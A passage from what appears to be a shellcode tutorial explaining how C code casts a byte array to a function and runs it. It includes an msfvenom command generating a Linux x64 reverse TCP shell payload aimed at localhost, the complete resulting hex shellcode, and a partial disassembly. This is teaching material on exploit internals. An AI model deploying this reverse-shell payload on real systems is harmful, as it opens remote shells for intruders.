 ```c
    // Cleanup (though we may not reach this)
    munmap(exec_mem, sizeof(code));
    
    return 0;
}

```

Let's revise the Memory Layout once again -

```txt
[Text Section]    - EXECUTE permission (your main() code)
[Data Section]    - READ/WRITE permission (your shellcode array)
[Stack]           - READ/WRITE permission
[Heap]            - READ/WRITE permission
```


If you're feeling overwhelmed by this line:

```c
int (*ret)() = (int(*)())code;
ret();
```

You're not alone! This syntax might look intimidating at first, but it's actually quite logical once we break it down.

Think of your shellcode bytes:

```c
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f..."
```

These aren't just random numbers! Each byte is a **CPU instruction** that the processor understands directly:

- `\x6a\x29` = `push 0x29`
- `\x58` = `pop rax`
- `\x99` = `cdq` (clear RDX)
- `\x6a\x02` = `push 0x2`
- `\x5f` = `pop rdi`
- etc.

To see the complete picture, you can use an online disassembler like [Defuse.ca's Online X86 Assembler](https://defuse.ca/online-x86-assembler.htm) and paste your shellcode as a hex string.

First, generate the shellcode in hex format:

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f hex
#...
6a2958996a025f6a015e0f05489748b90200115c7f000001514889e66a105a6a2a580f056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Paste this into the disassembler, and you'll see the human-readable assembly instructions:

```txt
Disassembly:

0:  6a 29                   push   0x29  
2:  58                      pop    rax  
3:  99                      cdq  
4:  6a 02                   push   0x2  
6:  5f                      pop    rdi
```

